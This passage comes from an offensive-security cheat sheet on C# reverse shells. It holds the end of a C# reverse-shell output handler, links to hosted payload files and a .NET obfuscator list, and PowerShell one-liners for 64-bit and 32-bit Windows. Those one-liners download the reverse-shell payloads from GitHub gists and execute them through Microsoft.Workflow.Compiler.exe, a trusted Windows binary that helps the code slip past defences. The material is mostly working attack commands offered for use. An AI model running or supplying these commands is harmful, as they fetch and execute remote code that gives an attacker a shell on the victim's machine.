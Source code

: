 ```c#
						}
					}
				}
			}
		}

		private static void CmdOutputDataHandler(object sendingProcess, DataReceivedEventArgs outLine)
        {
            StringBuilder strOutput = new StringBuilder();

            if (!String.IsNullOrEmpty(outLine.Data))
            {
                try
                {
                    strOutput.Append(outLine.Data);
                    streamWriter.WriteLine(strOutput);
                    streamWriter.Flush();
                }
                catch (Exception err) { }
            }
        }

	}
}
```

## C# using compiler
+ rev.txt, https://gist.github.com/BankSecurity/812060a13e57c815abe21ef04857b066
+ rev.shell, https://gist.github.com/BankSecurity/f646cb07f2708b2b3eabea21e05a2639
+ c# obfuscators list, https://github.com/NotPrab/.NET-Obfuscator

```bash
# auto down and execute
## 64bit:
powershell -command "& { (New-Object Net.WebClient).DownloadFile('https://gist.githubusercontent.com/BankSecurity/812060a13e57c815abe21ef04857b066/raw/81cd8d4b15925735ea32dff1ce5967ec42618edc/REV.txt', '.\REV.txt') }" && powershell -command "& { (New-Object Net.WebClient).DownloadFile('https://gist.githubusercontent.com/BankSecurity/f646cb07f2708b2b3eabea21e05a2639/raw/4137019e70ab93c1f993ce16ecc7d7d07aa2463f/Rev.Shell', '.\Rev.Shell') }" && C:\Windows\Microsoft.Net\Framework64\v4.0.30319\Microsoft.Workflow.Compiler.exe REV.txt Rev.Shell

## 32bit:
powershell -command "& { (New-Object Net.WebClient).DownloadFile('https://gist.githubusercontent.com/BankSecurity/812060a13e57c815abe21ef04857b066/raw/81cd8d4b15925735ea32dff1ce5967ec42618edc/REV.txt', '.\REV.txt') }" && powershell -command "& { (New-Object Net.WebClient).DownloadFile('https://gist.githubusercontent.com/BankSecurity/f646cb07f2708b2b3eabea21e05a2639/raw/4137019e70ab93c1f993ce16ecc7d7d07aa2463f/Rev.Shell', '.\Rev.Shell') }" && C:\Windows\Microsoft.Net\Framework\v4.0.30319\Microsoft.Workflow.Compiler.exe REV.txt Rev.Shell

```
